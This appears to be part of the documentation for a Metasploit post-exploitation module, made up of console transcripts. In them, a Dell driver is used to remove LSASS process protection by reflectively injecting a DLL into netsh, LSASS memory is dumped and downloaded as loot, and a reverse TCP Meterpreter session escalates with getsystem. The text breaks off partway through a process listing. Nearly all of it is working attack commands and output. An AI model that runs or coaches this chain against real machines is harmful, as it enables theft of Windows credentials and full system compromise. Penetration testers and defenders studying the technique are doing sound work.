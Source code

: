```
msf6 post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp
DRIVER_PATH => C:\Windows\Temp
msf6 post(windows/manage/dell_memory_protect) > set PID 740
PID => 740
msf6 post(windows/manage/dell_memory_protect) > run

[!] SESSION may not be compatible with this module:
[!]  * missing Meterpreter features: stdapi_sys_process_set_term_size
[*] Launching netsh to host the DLL...
[+] Process 692 launched.
[*] Reflectively injecting the DLL into 692...
[+] Exploit finished
[*] Post module execution completed
msf6 post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump 
msf6 post(windows/gather/memory_dump) > options

Module options (post/windows/gather/memory_dump):

   Name       Current Setting             Required  Description
   ----       ---------------             --------  -----------
   DUMP_PATH  C:\Windows\Temp\lsass_dump  yes       File to write memory dump to
   DUMP_TYPE  standard                    yes       Minidump size (Accepted: standard, full)
   PID        740                         yes       ID of the process to dump memory from
   SESSION    1                           yes       The session to run this module on

msf6 post(windows/gather/memory_dump) > run

[*] Running module against BADBLOOD
[*] Dumping memory for lsass.exe
[*] Downloading minidump (4.11 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211207125102_default_172.16.144.11_windows.process._368616.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > 
```

### Windows 10 Build 19044.1348 x64 using DBUtilDrv2 version 2.5

```
[*] Started reverse TCP handler on 10.0.0.9:1270 
[*] Meterpreter session 1 opened (10.0.0.9:1270 -> 10.0.0.8:39523 ) at 2021-12-08 07:18:27 -0800

meterpreter > sysinfo
Computer        : DESKTOP-JCD6JN8
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-JCD6JN8\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
============
```